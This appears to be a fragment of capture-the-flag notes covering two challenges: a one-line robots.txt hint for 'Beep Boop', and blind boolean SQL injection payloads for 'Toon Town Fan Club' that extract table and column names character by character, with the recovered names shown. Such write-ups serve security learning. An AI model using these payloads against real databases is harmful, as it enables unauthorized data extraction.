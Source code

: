 ## Beep Boop
/robots.txt

![](attachments/Pasted%20image%2020240406122047.png)


## Toon Town Fan Club


payload
```MYSQL


1' || 1=if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{i},1))>{mid},1,0);#
# post,testXCHG,users,OK
1' || 1=if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='testXCHG'),{i},1))>{mid},1,0);#

slug,name,filename
```

